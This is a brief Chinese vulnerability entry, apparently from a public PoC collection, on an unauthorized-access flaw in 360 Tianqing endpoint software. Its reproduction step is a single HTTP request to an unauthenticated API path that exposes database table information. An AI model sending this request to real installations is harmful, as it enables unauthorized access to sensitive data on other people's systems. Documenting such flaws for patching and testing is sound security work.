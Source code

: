 # 360天擎 越权访问/数据库信息泄露

## 漏洞描述

360天擎 存在未授权越权访问，造成敏感信息泄露

## 漏洞影响

```
天擎
```

## 漏洞复现

```plain
GET /api/dbstat/gettablessize HTTP/1.1
```

![image-20220209200552429](images/202202092005904.png)

